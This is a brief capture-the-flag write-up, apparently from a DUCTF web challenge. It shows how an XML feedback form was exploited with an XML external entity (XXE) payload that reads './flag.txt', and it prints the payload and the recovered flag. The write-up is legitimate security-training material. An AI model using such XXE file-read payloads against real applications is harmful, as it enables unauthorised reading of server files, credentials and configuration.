

We are given both a web source code zip and an instance.



It reflects what we type, lets see whats going on in the request when I press `Submit Feedback`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>hi!!</feedback>
            </root>
```

Hm, XML has some common attacks such as [XXE](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity). I look at the source code and see we need to read a `./flag.txt`.

Looking at the XXE example payloads I craft a file read payload like this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "./flag.txt"> ]>
            <root>
                <feedback>&example;</feedback>
            </root>
```

Let's try it!

`Feedback sent to the Emus: DUCTF{emU_say$_he!!0_h0!@_ci@0}`

Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`